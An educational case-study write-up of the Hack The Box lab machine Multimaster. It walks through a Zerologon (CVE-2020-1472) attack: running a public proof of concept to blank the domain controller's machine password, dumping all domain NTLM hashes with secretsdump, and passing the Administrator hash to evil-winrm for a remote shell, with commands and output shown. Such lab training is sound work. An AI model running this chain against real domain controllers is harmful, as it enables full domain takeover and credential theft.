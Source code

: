 # Exercise: Case Study Multimaster

This machine illustrates that even on Hack The Box, there are sometimes security misconfigurations and unintended vulnerable components. The machine is a domain controller in which the initial vulnerability is through a SQL injection. However, it turned out that the machine was released a few weeks before CVE-2020-1472 was disclosed and so it was actually vulnerable to the Zerologon attack. To test this, you can use the proof of concept of this attack:

```bash
┌─[rin@parrot]─[~/boxes/Multimaster]
└──╼ $git clone https://github.com/dirkjanm/CVE-2020-1472
To execute, you simply give the name of the domain and the IP address of the domain controller:
┌─[rin@parrot]─[~/boxes/Multimaster/CVE-2020-1472]
└──╼ $python3 cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
============================================================================================================================
Target vulnerable, changing account password to empty string
Result: 0
Exploit complete!
```

Now that the machine password has been set to an empty string, you can use Impacket's secretsdump.py that will collect all of the domain's users and password hashes:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Multimaster/CVE-2020-1472]
└──╼ $secretsdump.py -just-dc -no-pass MULTIMASTER\$@10.10.10.179
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
MEGACORP.LOCAL\tushikikatomo:1110:aad3b435b51404eeaad3b435b51404ee:1c9c8bfd28d000e8904f23c280b25d21:::
MEGACORP.LOCAL\andrew:1111:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
MEGACORP.LOCAL\lana:1112:aad3b435b51404eeaad3b435b51404ee:3c3c292710286a539bbec397d15b4680:::
MEGACORP.LOCAL\alice:1601:aad3b435b51404eeaad3b435b51404ee:19b44ab9ec562fe20b35ddb7c6fc0689:::
<SNIP>
```

Once you have these hashes, you can use Administrator's account to remote access the machine using evil-winrm

```bash
┌─[✗]─[rin@parrot]─[/opt/evil-winrm]
└──╼ $evil-winrm -u Administrator -H 69cbf4a9b7415c9e1caf93d51d971be0 -i 10.10.10.179
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megacorp\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Of course, this attack will have impacted the domain controller significantly by resetting the machine account's password to an empty string. If this was a machine with other Hack The Box users accessing it, you would want to avoid doing something that would significantly impact their experience. As a real attacker, this would send alerts flying and so that would be a consideration as well. Nevertheless, this is an exploit that is being used in the wild as I am writing this.

1. 
